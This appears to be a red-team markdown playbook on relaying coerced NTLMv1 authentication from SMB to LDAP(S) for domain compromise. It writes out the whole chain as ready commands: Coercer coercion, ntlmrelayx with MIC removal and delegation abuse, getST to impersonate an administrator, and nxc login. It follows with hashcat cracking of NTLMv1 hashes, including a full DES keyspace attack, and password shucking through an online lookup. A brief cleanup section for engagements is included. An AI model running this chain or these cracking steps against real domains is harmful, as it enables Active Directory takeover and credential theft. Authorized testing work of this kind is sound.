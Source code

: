# NTLMv1

## Relaying NTLMv1

### LDAP

Its not possible to relay SMB connections to LDAP(S) unless the Message Integrity Code (MIC) is removed. As NTLMv1 does not support the MIC it is therefor possible to relay NTLMv1 coerced from SMB to LDAP(S)

___

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack chain)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Owned Computer -> RBCD -> Domain Administrator

- Credential material for owned machine account
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

___
#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```python
# if MAQ -gt 0
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --no-dump --no-da --no-acl

# if using Owned Computer
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --escalate-user "MACHINE$" --delegate-access --no-dump --no-da --no-acl
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```
___
#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account (If used MAQ method)
Remove-ADComputer -Identity "WSW01$"


# Powerview.py

# Remove msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADObject -Identity DC01$ -Clear msDS-AllowedToActOnBehalfOfOtherIdentity 

# Remove Created Computer Account (If used MAQ method)
Remove-ADComputer -ComputerName "WS01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```